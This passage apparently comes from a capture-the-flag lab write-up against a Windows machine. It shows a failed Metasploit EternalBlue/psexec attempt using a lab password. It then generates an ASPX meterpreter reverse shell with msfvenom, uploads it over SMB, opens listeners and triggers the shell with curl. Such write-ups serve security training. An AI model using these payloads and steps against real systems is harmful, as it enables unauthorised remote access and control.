 Trying 1:

    msf6 > use 1
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 10.9.1.53
    LHOST => 10.9.1.53
    msf6 exploit(windows/smb/ms17_010_psexec) > set LPORT 8888
    LPORT => 8888
    msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.201.108
    RHOSTS => 10.10.201.108
    msf6 exploit(windows/smb/ms17_010_psexec) > set SMBPass !P@$$W0rD!123
    SMBPass => !P@$$W0rD!123
    msf6 exploit(windows/smb/ms17_010_psexec) > set SMBUser Bob
    SMBUser => Bob
    msf6 exploit(windows/smb/ms17_010_psexec) > run

Results:

    [*] Started reverse TCP handler on 10.9.1.53:8888 
    [*] 10.10.201.108:445 - Authenticating to 10.10.201.108 as user 'Bob'...
    [-] 10.10.201.108:445 - Rex::ConnectionTimeout: The connection with (10.10.201.108:445) timed out.
    [*] Exploit completed, but no session was created.

Also tried other username (Bill), other shares, and the `auxilliary/admin/smb/ms17_010_command`. All timed out.
Researched possible causes, but kinda gave up on it. Too much of a rabbit hole. Will try another route.

## Exploiting HTTP on port 49663

    msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP attack> lport=4444 -f aspx -o shell.aspx

Connect to the network share and upload the reverse shell `.aspx` file: 

    # smbclient //<IP target>/nt4wrksv
    smb: \> put shell.aspx

Set up a listener:

    nc -nlvp 4444

Or set up mult-handler in Metasploit:

    # msfconsole -q
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
    msf6 exploit(multi/handler) > set lhost <IP attack>
    msf6 exploit(multi/handler) > set lport 4444
    msf6 exploit(multi/handler) > run

Access the `shell.aspx` file with `curl` or in browser:

    # curl http://<IP target>:49663/nt4wrksv/shell.aspx

